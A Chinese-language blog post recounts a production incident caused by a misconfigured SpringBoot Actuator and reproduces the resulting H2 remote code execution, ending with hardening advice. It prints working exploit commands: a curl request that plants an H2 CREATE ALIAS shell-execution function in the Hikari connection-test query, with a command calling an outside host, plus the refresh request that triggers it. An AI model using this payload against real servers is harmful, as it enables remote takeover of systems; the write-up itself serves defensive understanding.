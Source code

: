 ```yaml
---
layout:     post
title:      SpringBoot Actuator配置不当导致的H2 RCE漏洞
subtitle:   RCE漏洞
date:       2023-02-23
author:     KC
header-img: img/post-bg-debug.png
catalog: true
tags:
    - SpringBoot
    - Actuator
    - RCE漏洞
    - H2 RCE
---
```


> 聊一下由于SpringBoot Actuator配置不当导致的H2 RCE漏洞

### 背景

近期公司生产环境服务器发现了某个SpringBoot服务由于每次获取数据库连接报错导致服务发生了不可用现象,经过一段时间的排查分析发现了该问题与H2 RCE漏洞有关,遂记录下该问题复现的过程以及出现的一些必要条件。


### 漏洞概述
远程代码执行 （RCE） 是一类软件安全缺陷/漏洞。可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

#### 案发现场
![](http://www.kcblog.cn/img/2023-02-23/1.jpg)
项目频繁打印上图所示的报错,导致了该服务每次获取数据库连接都会报错,进而导致服务完全不可用。
经过排查发现该项目添加了如下配置

```yaml
management:
  endpoints:
    web:
      exposure:
        include: "*" #暴露所有节点
  endpoint:
    health:
      show-details: ALWAYS  #显示详细信息
```

该配置是SpringBoot Actuator的配置，主要作用是暴露该项目所有的actuator相关的访问端口和访问路径。通过一些特定的端口路径可以直接访问到SpringBoot项目内的各种配置参数和环境变量以及对它们进行修改，这种方式如果使用不当可能会造成信息泄露、H2 RCE漏洞等严重的安全隐患。根据上图中的报错日志基本可以确定是SpringBoot Actuator的配置不当导致了H2 RCE安全漏洞。

#### 问题复现

本地服务器在不更改SpringBoot Actuator配置的情况下部署相同的服务实例,如下图所示
![](http://www.kcblog.cn/img/2023-02-23/2.jpg)
可以看到通过actuator/env端口直接查看到该服务的一些核心配置,如mysql数据库等

###### 发送如下POST请求修改该项目spring.datasource.hikari.connection-test-query的值

```shell
curl --location 'http://192.168.10.60:9095/actuator/env' \
--header 'Content-Type: application/json' \
--data '{
    "name": "spring.datasource.hikari.connection-test-query",
    "value": "CREATE ALIAS EXEC AS '\''String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()); if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}'\''; CALL EXEC('\''curl 192.168.1.188'\'');"
}'
```

再次刷新actuator/env页面发现spring.datasource.hikari.connection-test-query的值已经被成功修改,这个时候配置并不会立即生效,需要通过刷新接口使配置生效

![](http://www.kcblog.cn/img/2023-02-23/3.jpg)

###### 最后一步，向端点 /actuator/refresh 发送POST请求，使刚才修改的配置生效。

```shell
curl --location --request POST 'http://192.168.10.60:9095/actuator/refresh'
```

接下来随便请求该项目的任意接口执行sql之前都会出现案发现场图中提示的报错，进而导致服务不可用。

#### 原理

> HikariCP中的`connectionTestQuery`配置意义是在从池中给出一个连接之前被执行的query，也就是该属性下配置的query语句。 当攻击者通过Actuator漏洞成功修改了spring.datasource.hikari.connection-test-query属性之后，每次获取数据库连接时都会先执行该属性下配置的sql语句，然后利用SQL语句中的用户自定义函数，进行RCE。
>
> 在H2中有一个非常重要的命令，与PostgreSQL中的用户定义函数相似，可以用CREATE ALIAS创建一个java函数然后调用它，示例如下:
>
> ```sql
> CREATE ALIAS GET_SYSTEM_PROPERTY FOR "java.lang.System.getProperty";
> CALL GET_SYSTEM_PROPERTY('java.class.path');
> ```
>
> 仿照这个，创建命令执行的java函数可以如下:
>
> ```java
> String shellexec(String cmd) throws java.io.IOException { 
>     java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());
>     if (s.hasNext()) {
>         return s.next();
>     } throw new IllegalArgumentException(); 
> }
> ```
>
> 那么RCE所需的SQL语句即:
>
> ```sql
> CREATE ALIAS EXEC AS "String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream());  if (s.hasNext()) {return s.next();} throw new IllegalArgumentException();}";
> CALL EXEC('curl 192.168.1.188');
> ```

万幸的是我们服务器中没有使用到H2数据库，只是会导致每次执行RCE语句时报错，没有造成太大损失。

#### 总结

尽量不要将SpringBoot服务Actuator的所有端口暴露出来，假如真的要用的话要保证该服务对应的端口不要直接暴露在外网环境中，同时可以开启security功能，配置访问权限验证，类似配置如下：

```properties
management.security.enabled=true
security.user.name=xxxxx
security.user.password=xxxxx
```

